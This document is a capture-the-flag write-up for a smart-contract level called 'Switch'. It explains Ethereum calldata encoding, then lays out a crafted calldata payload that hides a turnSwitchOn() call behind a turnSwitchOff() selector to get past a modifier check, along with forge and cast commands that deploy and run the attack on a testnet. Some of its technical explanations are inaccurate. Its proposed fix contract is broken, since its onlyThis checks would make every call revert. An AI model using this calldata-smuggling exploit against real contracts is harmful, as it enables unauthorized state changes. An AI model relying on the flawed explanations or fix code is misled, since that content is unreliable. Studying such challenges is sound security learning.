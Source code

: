 # Switch

Just have to flip the switch. Can't be that hard, right?

## CALLDATA

`CALLDATA` is a read-only byte-addressable space where the data of a transaction or function call is stored in Ethereum smart contracts. It's used to encode function arguments that are sent along with a function call to a contract. Understanding calldata flow involves knowing how data is structured and passed to functions within the Ethereum Virtual Machine (EVM).

### How CALLDATA is encoded

1. `Function selector`: The first `4 bytes` of `CALLDATA` are reserved for the function selector. This is derived from the first 4 bytes of the Keccak-256 hash of the function signature (e.g., `transfer(address,uint256)`). The function selector is used by the EVM to determine which function to execute within the smart contract.

2. `Parameters encoding`: After the function selector, the parameters of the function call are encoded. Solidity uses the `Ethereum Contract ABI (Application Binary Interface)` specification for encoding these parameters.

3. `Fixed and Dynamic Types`: The Ethereum ABI differentiates between fixed-size types (like `uint256`, `address`, etc.) and dynamic types (like `bytes`, `string`, etc.). Fixed-size types are encoded directly in the calldata following the function selector. Dynamic types, however, are encoded differently to handle their variable size.

4. `Dynamic Types Encoding`:

   1. For dynamic types, the calldata includes an offset (pointer) instead of the data itself immediately after the function selector and fixed-size arguments. This offset points to the location within the calldata where the actual data for the dynamic type starts.
   2. The actual data for a dynamic type begins with its length (for types like `bytes` and `string`) and is followed by the data itself. This length is necessary because the EVM needs to know how much data to read for these variable-length types.

5. `Padding`: The Ethereum ABI requires that all elements in the calldata are aligned to `32 bytes`. This means that if an argument does not naturally align to `32 bytes`, it must be `right-padded` with zeros. 

### calldatacopy

The `calldatacopy` instruction in Solidity's inline assembly is used to copy data from the call data to memory. The calldatacopy instruction is particularly useful for operations that require direct manipulation or inspection of the raw call data, which can be more gas-efficient in certain scenarios. Here's a breakdown of how calldatacopy works:

It's often used in low-level operations, such as when a contract needs to dynamically determine which function to call or when processing arbitrary-length data that doesn't fit neatly into Solidity's type system.

`calldatacopy` is a powerful tool for low-level manipulation of call data in Solidity contracts, enabling efficient data handling and custom processing scenarios. However, its use requires careful consideration of safety, complexity, and compatibility aspects.

- Syntax: calldatacopy(t, f, s)

    t (target): The starting position in memory where the data should be copied to.
    f (from): The starting position in the call data from where to begin copying.
    s (size): The number of bytes to copy from the call data to memory.

```bash
assembly {
    # copy 4 bytes from calldata at position 68 into the memory location starting at selector
    calldatacopy(selector, 68, 4) # grab function selector from calldata
}
```

The choice of position 68 assumes a specific layout of the call data, likely based on the structure of the transaction being sent to `flipSwitch`.

## Vulnerability

1. Function Selector for `flipSwitch(bytes memory data)`: `30c13ade`

This is the first 4 bytes of the calldata and is used to identify which function to call in the smart contract.

2. Offset for the data field: `0000000000000000000000000000000000000000000000000000000000000060`

This indicates the start of the data for the `bytes memory data` parameter. In Solidity, complex data types like `bytes` and `string` are passed by reference, with this part specifying the offset (in bytes) from the start of the calldata to where the data begins. The offset (pointer) `0x60` (`96` in decimal) is used because it points to the start of the data after the function selector (4 bytes), the offset itself (32 bytes), and the length of data (32 bytes). This structure allows the EVM to correctly parse and handle dynamic data types in function calls.

3. Padding to reach the `64-byte` offset: `0000000000000000000000000000000000000000000000000000000000000000`

Solidity and the EVM require that certain elements in calldata be aligned to specific boundaries for efficient access and to conform to the ABI (Application Binary Interface) specifications. The 64-byte boundary mentioned is part of these alignment requirements. The padding ensures that the next significant piece of data starts at a 64-byte boundary. 

4. Function selector for `turnSwitchOff()`: 20606e1500000000000000000000000000000000000000000000000000000000

This part is intended to mimic a legitimate call to `turnSwitchOff()` by including its function selector. The function selector is followed by padding to fill the rest of the `32-byte` slot.

5. Length of data field: `0000000000000000000000000000000000000000000000000000000000000004`

This specifies the length of the actual data being passed. Although it's part of an exploit, it's marked as 4 bytes, indicating the size of the function selector for `turnSwitchOn()`. This is a clever trick to pass the correct length for the `turnSwitchOn()` selector while misleading the contract about the intended action.

6. Function selector for `turnSwitchOn()`: `76227e1200000000000000000000000000000000000000000000000000000000`

This is the actual function selector that the exploit wishes to execute. By placing it after the `turnSwitchOff()` selector, the exploit attempts to execute `turnSwitchOn()` while bypassing security checks that look for the `turnSwitchOff()` selector.

```bash
✗ cast sig "flipSwitch(bytes)"
0x30c13ade

cast sig "turnSwitchOff()"
0x20606e15

✗ cast sig "turnSwitchOn()"
0x76227e12
```

```bash

0        4 bytes      32 bytes             64 bytes (0x40)          96 bytes (0x60)
| Function Selector | Offset to `data` | Length of `data` | Actual `data` bytes... |

# Calldata layout (32-byte slots)
# 30c13ade                                                         -> function Selector for flipSwitch(bytes memory data) - 4 bytes
# 0000000000000000000000000000000000000000000000000000000000000060 -> offset for the data field
# 0000000000000000000000000000000000000000000000000000000000000000 -> padding
# 20606e1500000000000000000000000000000000000000000000000000000000 -> function selector for turnSwitchOff()
# 0000000000000000000000000000000000000000000000000000000000000004 -> (4 bytes, the length of the function selector) (**)
# 76227e1200000000000000000000000000000000000000000000000000000000 -> function selector for turnSwitchOn()

# (**) length of _data: you'll pretend to call turnSwitchOff() to pass the modifier check but actually call turnSwitchOn(). The length is for the turnSwitchOn() selector, which is 4 bytes.
```

## Attack

1. Deploy `SwitchAttack`.

```bash
forge script script/DeploySwitchAttack.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# make deploy ARGS="--network sepolia"
# https://sepolia.etherscan.io/address/0x70aD9fB0D0e2d9C82Bcf4DB46E6BdD2Beb5c7157
```

3. Attack

```bash
cast send $CONTRACT_ADDRESS "attack()" --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy

# https://sepolia.etherscan.io/tx/0xf1235f7755a33fcde34225c518755fe83d873519f671f43e6a95bb9a2e521744
```

## Fix

1. `Use explicit function calls instead of dynamic calls`: Replace the dynamic call in `flipSwitch` with explicit function calls. This prevents an attacker from crafting calldata that bypasses the contract's intended logic.

2. `Strengthen the onlyOff modifier`: Ensure that the `onlyOff` modifier checks not just for the presence of a specific function selector but also validates the overall structure and intent of the call.

3. `Validate the entire calldata`: Instead of just checking a portion of the calldata, validate the entire calldata to ensure it matches expected patterns for legitimate use cases.

4. `Use a more secure way to manage contract state`: Instead of allowing any external call to change the state, restrict state changes to predefined functions that are protected by appropriate access control mechanisms.

```bash
contract Switch {
    bool public switchOn; // switch is off
    bytes4 private constant OFF_SELECTOR = bytes4(keccak256("turnSwitchOff()"));
    bytes4 private constant ON_SELECTOR = bytes4(keccak256("turnSwitchOn()"));

    modifier onlyThis() {
        require(msg.sender == address(this), "Only the contract can call this");
        _;
    }

    # This modifier is no longer needed if we're not using dynamic calls
    # modifier onlyOff() {
    #     require(!switchOn, "Switch must be off");
    #     _;
    # }

    function flipSwitch(bool turnOn) public {
        require(!switchOn, "Switch must be off");
        if (turnOn) {
            turnSwitchOn();
        } else {
            turnSwitchOff();
        }
    }

    function turnSwitchOn() private onlyThis {
        switchOn = true;
    }

    function turnSwitchOff() private onlyThis {
        switchOn = false;
    }
}
```
